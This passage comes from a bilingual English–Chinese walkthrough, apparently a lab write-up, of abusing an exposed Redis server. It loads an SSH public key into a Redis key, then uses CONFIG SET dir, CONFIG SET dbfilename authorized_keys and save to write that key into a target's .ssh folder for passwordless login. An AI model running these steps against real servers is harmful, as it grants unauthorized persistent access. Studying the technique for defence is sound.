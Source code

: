 Here, let’s take a look at the command. We use `-h` flag to specify the remote Redis server IP so that `redis-cli` knows where to connect and send commands. The part after `-x` is saying that we are setting the key in redis named `s-key` with the value in `temp.txt`.

在这里，让我们看一下命令。我们使用 `-h` 标志来指定远程 Redis 服务器 IP，以便 `redis-cli` 知道在何处连接和发送命令。`-x` 后面的部分表示，我们正在设置 redis 中的键名为 `s-key`，其值位于 `temp.txt` 中。

![](/img/review/0_RXLExaGb28VkI0xO.png)

Yea, we have a key with our SSH key sneaked in! Let’s connect to the Redis and play around its configuration. Use `redis-cli` to connect to the Redis server again.

是的，我们有一个密钥，SSH 密钥偷偷溜进来了!让我们连接到Redis并研究它的配置。再次使用 `redis-cli` 连接到 Redis 服务器。

![](/img/review/0_ly-kkskrTIJ72LFM.png)

Looking at the above screenshot, we first verify the value of the key `s-key` by using the command `GET s-key`, which is what we want – the public key with two blank lines before and after. Then I tried the command “dir” just to see what it says (kidding). What we actually want to do here is to get the value of “s-key” (SSH public key) stored in the `.ssh` folder so that we can remote SSH login to the target machine whithout having to type the password.

查看上面的屏幕截图，我们首先使用命令 `GET s-key` 来验证键 `s-key` 的值，这正是我们想要的——前后各有两行空白的公钥。然后，我尝试命令 “dir”，只是为了看看它说了什么(开玩笑)。这里我们真正想做的是获取存储在 `.ssh` 文件夹中的“s-key”(SSH公钥)的值，这样我们就可以远程ssh登录到目标机器，而不需要输入密码。

Thus, we will do this:

因此，我们将这样做:

```
CONFIG GET dir # get your redis directory
# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed. CONFIG SET dir
/home/xxxx/.ssh # set the backup location to the .ssh folder
(or) CONFIG SET dir /root/.ssh CONFIG SET dbfilename authorized_keys
# lastly we back our data containing our "s-key" key-value pair up in the .ssh folder
save
```
